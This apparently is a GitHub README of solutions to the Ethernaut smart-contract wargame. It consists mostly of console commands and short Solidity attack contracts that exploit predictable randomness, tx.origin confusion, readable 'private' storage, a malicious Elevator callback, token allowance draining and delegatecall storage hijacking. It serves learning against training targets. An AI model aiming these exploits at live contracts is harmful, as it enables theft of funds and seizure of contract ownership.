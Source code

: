 # ethernaut-challenges

### challenge 1
await contract.contribute({value: toWei("0.000001")})

await contract.sendTransaction({value: toWei("0.000001")})

await contract.withdraw()

### challenge 2
Constructor spelled incorrectly


await contract.Fal1out({value: toWei("0.00000001")})

### challenge 3

```
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/contracts/utils/math/SafeMath.sol";

interface CoinFlip {
    function flip(bool) external;
}

contract Attack {
    address cF = 0x30C7A39F911f075F45434357af31Ec5aaA9828bb;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    uint256 public value;

    function attack() public returns (uint256){
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        CoinFlip(cF).flip(side);

        return blockValue;
    }
}
```

### challenge 4

```
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address) external;
}

contract Attack {
    address telephoneAddress = 0x0bDb4C476e8719Db25Baac7Ab796008023C5Ed3A;
    address myAddress = 0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88;

    function attack() public {
        Telephone(telephoneAddress).changeOwner(myAddress);
    }
}
```

### challenge 5

Underflow and has to be called by someone else

### challenge 6

await window.web3.eth.sendTransaction({
    from: '0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88',
    to: '0x601D70A2fFAC4C90A3D4c4931564EE3d857d39F8',
    data: '0xdd365b8b'
})


### challenge 8

This will give you the pass:

await window.web3.eth.getStorageAt(contract.address,1)

### challenge 10

classic reentracy attack in withdraw

### challenge 11

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Elevator {
    function goTo(uint _floor) external;
}

contract Attacker {
    uint256 public nn;

    function attack(address _address) external {
        Elevator elevator = Elevator(_address);
        elevator.goTo(22);

    }

    function isLastFloor(uint) external returns (bool) {
        if (nn % 2 == 0) {
            nn += 1;
            return false;
        } else {
            nn += 1;
            return true;
        }      
    }
}
```

### challenge 12

pretty easy to read out the storage.

for whatever reason metamask would change my input data which took me one hour to figure out. works with remix.

### challenge 15

create smartcontract and give it the allowance for all tokens. then run the attacker contract below.

```
contract Attacker {
    function attack(address _address) public {
        address me =    0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88;
        address other = 0xEd6715D2172BFd50C2DBF608615c2AB497904803;
        NaughtCoin nc = NaughtCoin(_address);
        nc.transferFrom(me, other, nc.balanceOf(me));
    }
}
```


### challenge 16

most difficult until now... 

```
contract Attacker {
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 

  function setTime(uint256 _address) public {
    owner = address(uint160(_address));
  }
}
```

### challenge 17

cheated by getting the contract address from etherscan (lol). correct way would be to get the account address (its deterministic) from `keccack256(address, nonce)` than I simply selfdestructed the contract.
